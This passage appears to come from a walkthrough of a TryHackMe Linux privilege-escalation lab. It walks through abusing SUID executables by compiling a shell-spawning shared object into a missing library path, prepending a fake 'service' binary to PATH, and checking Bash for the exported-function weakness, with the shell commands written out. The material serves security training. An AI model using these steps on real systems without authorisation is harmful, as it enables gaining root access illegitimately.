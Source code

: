```
Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

* Create the .config directory for the libcalc.so file:

```mkdir /home/user/.config ```

Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. 

* Compile the code into a shared object at the location the suid-so executable was looking for it:

```gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c ```

* Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

```/usr/local/bin/suid-so ```


## 12. SUID / SGID Executables - Environment Variables 

The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

* First, execute the file and note that it seems to be trying to start the apache2 webserver:

```/usr/local/bin/suid-env ```

* Run strings on the file to look for strings of printable characters:

```strings /usr/local/bin/suid-env ```

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

* Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

```gcc -o service /home/user/tools/suid/service.c ```

* Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

```PATH=.:$PATH /usr/local/bin/suid-env ```


## 13. Linux PrivEsc based on tryhackme.com walkthrough.

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

* Verify this with strings:

```strings /usr/local/bin/suid-env2 ```

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

* Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```/bin/bash --version ```

```